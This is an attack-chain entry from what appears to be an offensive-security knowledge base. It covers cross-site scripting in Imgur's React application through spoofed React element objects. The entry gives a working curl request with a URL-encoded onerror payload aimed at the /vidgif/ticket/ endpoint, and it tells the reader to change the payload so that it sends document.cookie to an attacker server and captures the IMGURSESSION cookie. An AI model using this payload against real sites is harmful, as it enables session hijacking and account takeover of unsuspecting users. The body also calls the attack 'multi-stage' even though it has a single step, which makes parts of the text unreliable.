

---
tags:
  - xss
  - react
  - javascript
  - session-hijacking
  - web-vulnerability
type: attack_chain
tools: []
tactics:
  - '[[Execution]]'
  - '[[Collection]]'
commands:
  - '[[commands/curl-imgur-xss-payload]]'
platforms:
  - Web
complexity: medium
procedures:
  - '[[procedures/Craft-Malicious-URL-for-React-XSS-Exploitation]]'
step_count: 1
techniques:
  - '[[JavaScript]]'
description: >-
  A single-stage attack exploiting a Cross-Site Scripting (XSS) vulnerability in
  Imgur's React-based application by spoofing a React error element to inject
  arbitrary JavaScript, enabling session hijacking.
skill_level: intermediate
impact_level: high
id: 5d12847c-320b-4ed4-b464-0d08641464b7
created_at: '2025-12-14T03:16:07.983Z'
updated_at: '2025-12-14T03:16:07.983Z'
verified: false
validated: true
submitted: true
mitre_tactics:
  - '[[Execution]]'
  - '[[Collection]]'
mitre_techniques:
  - '[[JavaScript]]'
---
# XSS via React Element Spoofing Leading to Session Cookie Theft in Imgur

Multi-stage attack chain demonstrating a complete attack workflow.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 1 |
| Execution Time | ~1 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Web browser or [[commands/curl-imgur-xss-payload]]

### Target Environment

- Imgur web application (React-based)
- No specific services/ports required beyond standard HTTP/HTTPS (port 80/443)
- Public internet access to Imgur

### Initial Access Requirements

- No credentials required
- Victim must visit the malicious URL (e.g., via phishing or direct link)
- Attacker needs ability to craft and distribute URLs

## Detailed Attack Procedures

### Step 1: Craft and Deliver Malicious URL
procedure: [[procedures/Craft-Malicious-URL-for-React-XSS-Exploitation]]

**Objective**: Spoof a React error element to inject and execute arbitrary JavaScript in the victim's browser, stealing the session cookie.

**Instructions**: Construct a URL targeting the /vidgif/ticket/ endpoint with parameters that manipulate the error object. Use URL encoding for the payload. Test in a browser or via curl to verify execution.

First, craft the payload using [[commands/curl-imgur-xss-payload]] to simulate the request:

```bash
curl "http://imgur.com/vidgif/ticket/aaaaaaaa?error[props][dangerouslySetInnerHTML][__html]=%3Cimg%20src=a%20onerror=%22alert(%27XSS%20on%20%27%2bdocument.domain)%22%3E&error[_isReactElement]=true&error[type]=body" -v
```

Replace the alert payload with one to exfiltrate the session cookie, e.g., sending document.cookie to an attacker-controlled server.

**Expected Output**: In a browser, the onerror handler triggers, executing the JavaScript (e.g., alert popup). In curl, check for HTTP response indicating the error page render; full execution requires a browser context.

**Success Indicators**:
- JavaScript alert or payload execution observed
- Session cookie (IMGURSESSION) captured if exfiltration payload is used
- No sanitization errors blocking the render
